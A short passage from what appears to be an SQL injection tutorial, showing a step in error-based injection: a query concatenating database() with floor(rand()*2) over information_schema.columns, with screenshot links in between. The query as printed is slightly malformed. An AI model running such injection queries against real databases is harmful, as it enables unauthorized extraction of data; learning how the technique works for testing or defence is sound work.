 And copy the string.

![62.png](./img/62.png)

Let us add multiple values by defining any random table to like this: 

`select concat(0x3a,0x3a(select database()),0x3a,0x3a, floor (rand()*2)) a from information_schema.columns;`

![63.png](./img/63.png)

After typing this we can see here the number of rows:

![64.jpg](./img/64.jpg)
